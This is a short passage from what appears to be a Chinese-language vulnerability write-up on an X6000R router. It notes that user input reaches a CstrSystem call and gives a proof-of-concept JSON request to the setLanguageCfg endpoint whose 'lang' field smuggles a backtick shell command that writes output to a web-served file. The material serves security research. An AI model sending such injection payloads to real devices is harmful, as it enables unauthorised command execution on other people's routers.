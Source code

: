 可以看到最终拼接调用了CstrSystem:

![image-20241029000458736](./X6000R/images/image-20241029000458736.png)



那就随便打了。。。

```
{"lang":" `ls > /web/poc.txt`","langAutoFlag":"0","topicurl":"setLanguageCfg"}
```

![image-20241029000710930](./X6000R/images/image-20241029000710930.png)
